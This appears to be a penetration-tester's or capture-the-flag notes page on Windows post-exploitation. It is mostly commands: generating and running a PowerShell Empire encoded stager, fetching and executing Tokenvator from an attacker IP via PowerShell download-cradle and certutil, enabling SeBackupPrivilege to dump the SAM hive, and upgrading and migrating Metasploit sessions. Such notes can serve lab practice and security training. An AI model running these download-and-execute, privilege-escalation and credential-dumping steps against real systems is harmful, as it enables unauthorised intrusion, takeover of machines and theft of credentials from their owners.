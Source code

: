 ### Use **powershell empire**

> Powershell will go wrong when windows version is too old

Start Empire server and listener then generate stager

```bash
./ps-empire server
./ps-empire client

usestager multi_launcher
set Listener http
generate
```

Execute stager

```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8Ab...
```

> In some cases, will need to specify powershell's full path 

After that, just use powershell empire's powerful modules

### Tokenvator

From **PowerSharpPack**

> Not working on this machine because its powershell version is too old****

```bash
iex(new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-Tokenvator.ps1")
Invoke-Tokenvator GetSystem
Invoke-Tokenvator Sample_Processes
```

Use exe version if powershell failed to ececute

```bash
certutil -urlcache -split -f http://10.11.19.145/Tokenvator.exe token.exe
token help

# Grant token to dump sam hive
token Enable_Privilege /Privilege:SeBackupPrivilege

# or get all tokens
token GetSystem
```

### Metasploit

```bash
# From shell to meterpreter
sessions -u $ID

# Migrate to x64 or spoolsvc.exe winlogon.exe or explorer.exe or to SYSTEM process
ps
migrate $PID
```
